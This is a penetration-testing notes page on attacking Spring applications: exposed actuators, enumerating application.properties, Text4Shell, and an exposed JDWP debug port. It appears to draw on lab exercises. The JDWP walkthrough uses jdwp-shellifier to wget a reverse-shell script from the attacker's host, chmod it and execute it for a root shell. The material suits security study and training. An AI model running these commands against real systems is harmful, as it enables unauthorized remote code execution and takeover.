

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Spring

## 101

<table><thead><tr><th width="146" align="right">Technology</th><th>Description</th></tr></thead><tbody><tr><td align="right"><a href="https://spring.io/projects/spring-framework">Spring</a></td><td>A framework for building Java applications.</td></tr><tr><td align="right"><a href="https://spring.io/projects/spring-boot">Spring Boot</a></td><td>A Spring extension that simplifies the configuration of Spring apps by providing defaults and conventions to minimize the boilerplate code required.</td></tr></tbody></table>

## Recon

The default error page (`/error`) for Spring applications:

<figure><figcaption></figcaption></figure>

## Attacks

### Actuators

Spring Boot's [actuators](https://www.baeldung.com/spring-boot-actuators#understanding-actuator) is a set of built-in monitoring and debugging features and its endpoints should not be public facing. For instance, [`/actuator/sessions`](https://www.baeldung.com/spring-boot-actuators#3-predefined-endpoints) lists active HTTP Spring session&#x73;_._ For an example of leveraging an actuator for **session hijacking** see [Cozyhosting](../../../boxes/easy/cozyhosting.md#leveraging-actuator).

### Config Files

[Spring applications](https://docs.spring.io/spring-boot/docs/1.4.1.RELEASE/reference/html/boot-features-external-config.html#boot-features-external-config-application-property-files) will load properties from the [`application.properties`](https://docs.spring.io/spring-boot/docs/1.4.1.RELEASE/reference/html/boot-features-external-config.html#boot-features-external-config-application-property-files) file which is typically under the webroot (`/`) or the `config` subdirectory. This file can contain sensitive information, such as credentials and database information. We can use Burp Intruder to enumerate this file.

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course, more specifically, the Asio lab._

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Apache Commons

**Apache Commons Text** is a part of the larger Apache Commons project, which provides reusable Java components. Specifically, Commons Text offers utility classes for advanced string manipulation. While not part of the Spring Framework itself, it is commonly included in Spring-based applications due to its useful text processing features.

Apache Commons Text from `1.5` up to `1.9` are vulnerable to **Text4Shell** ([CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889)). There is a [PoC](https://github.com/chaudharyarjun/text4shell-exploit) available written for `POST` requests and using the `data` parameter. A [modified version of the PoC](https://github.com/CSpanias/text4shell-exploit) is also available allowing for more flexibility.

### JDWP

**Java Debug Wire Protocol (JDWP)** is a protocol used by the Java Platform Debugger Architecture (JPDA) to enable communication between a debugger and a Java application. It is typically used during development to inspect and control Java programs. While JDWP is not specific to Spring, it can be exposed in Spring-based applications—especially in misconfigured environments or containerized deployments. If left open in production (commonly on port `5005`), JDWP can be exploited by attackers to execute arbitrary code, inspect memory, or gain full control over the JVM.

The identification process of a JDWP process goes like this:

1. We’re in a **Java web app**:

```bash
# TCP port scan reveals the use of the Spring framework
8080/tcp open  http    Apache Tomcat (language: en)
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Spring Java Framework
```

2. We find a **local open port** with no response from manual probbing:

```bash
# Unknown local port
$ netstat -aln
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN
```

3. There’s a **Java process running** as `root`:

```bash
$ lsof -i :8000
COMMAND   PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
java      851 root   15u  IPv4 151467      0t0  TCP localhost:8000 (LISTEN)
```

4. We suspect this might be **debug-related**:


```bash
$ ps aux | grep 8000
root         851  0.0  3.9 2537196 79896 ?       Ssl  06:06   0:06 java -Xdebug -Xrunjdwp:transport=dt_socket,address=8000,server=y /opt/stats/App.java
```


The above pattern should trigger the “_Maybe it’s JDWP_” instinct.&#x20;

There is a [PoC](https://github.com/IOActive/jdwp-shellifier) available but we might have to dig a bit more in order to successfully use it. This PoC waits for an event to be triggered in order to achieve RCE; we will have to enumerate the port from which we can do that.

```bash
$ ss -tunlp

Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
...
# This is our port forward
tcp   LISTEN 0      1  127.0.0.1:8000      0.0.0.0:*    users:(("java",pid=851,fd=15))
# This is unknown, thus, potentially the JDWP port!
tcp   LISTEN 0      50         *:5000            *:*    users:(("java",pid=851,fd=10))
# This is the web application
tcp   LISTEN 0      100        *:8080            *:*    users:(("java",pid=834,fd=11))
```

We can then check what the Java process is doing:


```bash
$ ps aux | grep java
dev          834  0.7 27.4 2613260 555380 ?      Ssl  06:06   3:53 java -jar /opt/dev/api.jar
root         851  0.0  3.8 2537196 77344 ?       Ssl  06:06   0:07 java -Xdebug -Xrunjdwp:transport=dt_socket,address=8000,server=y /opt/stats/App.java
```


Enumerating the outputted paths confirms that the port `5000` is what we are searching for:

```bash
$ ls -la /opt/dev
...
-rw-r--r-- 1 root root 17383754 Nov  7  2022 api.jar

$ cat App.java | grep 5000
            ServerSocket echod = new ServerSocket(5000);
```

Now we can use the PoC and gain a `root` shell on the target:


```bash
# Upload a reverse shell script via the JDWP vulnerability
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'wget 192.168.45.154:8888/revshell.sh -O /tmp/revshell.sh'
...
[+] Waiting for an event on 'java.net.ServerSocket.accept'
```


```bash
$ curl http://berlin:5000
curl: (1) Received HTTP/0.9 when not allowed
```


```bash
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'wget 192.168.45.154:8888/revshell.sh -O /tmp/revshell.sh'
...
[!] Command successfully executed
```


Repeat the same process for assigning the right permissions to the file and then execute it:

```bash
# Assign executable permissions to the uploaded file
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'chmod 700 /tmp/revshell.sh'
# Execute the file
$ python2 jdwp-shellifier.py -t 127.0.0.1 -p 1234 --cmd 'bash /tmp/revshell.sh'
```
